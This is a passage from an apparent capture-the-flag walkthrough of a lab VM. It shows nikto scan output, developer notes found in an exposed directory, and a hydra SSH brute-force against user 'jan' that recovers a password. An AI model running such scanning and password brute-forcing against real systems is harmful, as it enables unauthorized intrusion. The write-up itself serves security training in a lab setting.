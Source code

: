 As you can see, I was able to identify 2 user on the system, `kay` and `jan`. Next, I run `nikto` on the webserver:

```
root@kali:~# nikto -h 192.168.43.170
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP:          192.168.43.170
+ Target Hostname:    192.168.43.170
+ Target Port:        80
--------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x9e 0x56a870fbc8f28 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 8 item(s) reported on remote host
--------------------------------------------------------------------
+ 1 host(s) tested
```

There was an interesting directory called development, which contained 2 text files.

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool!
I think it might be neat to host that on this server too. Haven't made any real web 
apps yet, but I have tried that example you get to show off how it works (and it's 
the REST version of the example!). Oh, and right now I'm using version 2.5.12, 
because other versions were giving me trouble. -K2018-04-22: SMB has been configured. -K2018-04-21: I got Apache set up. Will put in our content later. -JFor J:I've been auditing the contents of /etc/shadow to make sure we don't have any weak 
credentials, and I was able to crack your hash really easily. You know our password 
policy, so please follow it? Change that password ASAP.-K
```

Now, I knew that jay had a weak password and SSH is running, so I tried to brute-force it with `hydra`.

```
root@kali:~# hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://192.168.43.170
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (http://www.thc.org/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.43.170:22/
[STATUS] 263.00 tries/min, 263 tries in 00:01h, 14344143 to do in 909:01h, 16 active
[STATUS] 247.67 tries/min, 743 tries in 00:03h, 14343663 to do in 965:16h, 16 active
[22][ssh] host: 192.168.43.170   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```
